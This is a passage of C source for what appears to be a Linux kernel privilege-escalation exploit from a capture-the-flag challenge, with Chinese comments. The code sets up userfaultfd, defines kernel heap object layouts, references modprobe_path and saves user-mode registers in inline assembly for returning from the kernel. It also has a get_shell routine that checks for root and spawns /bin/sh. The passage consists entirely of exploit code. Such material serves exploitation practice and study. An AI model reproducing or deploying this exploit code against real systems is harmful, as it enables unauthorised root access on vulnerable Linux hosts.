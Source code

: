 ## exp
```c
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdlib.h>
#include <inttypes.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <pthread.h>
#include <poll.h>
#include <sys/syscall.h>
#include <sys/shm.h>
#include <string.h>

#define PAGE_SIZE 0x1000
#define FILE_MAXSZ                0x40
#define MESSAGE_MAXSZ             0x20
#define HISTORY_MAXSZ             0x30
#define HASH_SIZE                 0x10

size_t user_cs, user_rflags, user_sp, user_ss;
void* page;
int f1;
unsigned long long modprobe_path;
typedef struct {
  char hash[HASH_SIZE];
  char *content; // kernel heap pointer
  char *message; // kernel heap pointer
} hash_object; // 0x20 大小

typedef struct {
  char hash[HASH_SIZE];
  char content[FILE_MAXSZ];
  char message[MESSAGE_MAXSZ];
} log_object;
hash_object h1;
char buf[0x1000];
static char uffd_src_page[4097]; // 你要拷贝进去的数据
static long uffd_src_page_size = 0x1000;
unsigned long long attr_buf[4];
static char uffd_src_page_1[4097]; // 第二次拷贝
char hash[0x11];
void save_status(void)
{
    asm volatile ("mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );

    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
void get_shell(){
    if (getuid()){
        puts("failed to get root");
        exit(0);
    }
    puts("get root");
    system("/bin/sh");
```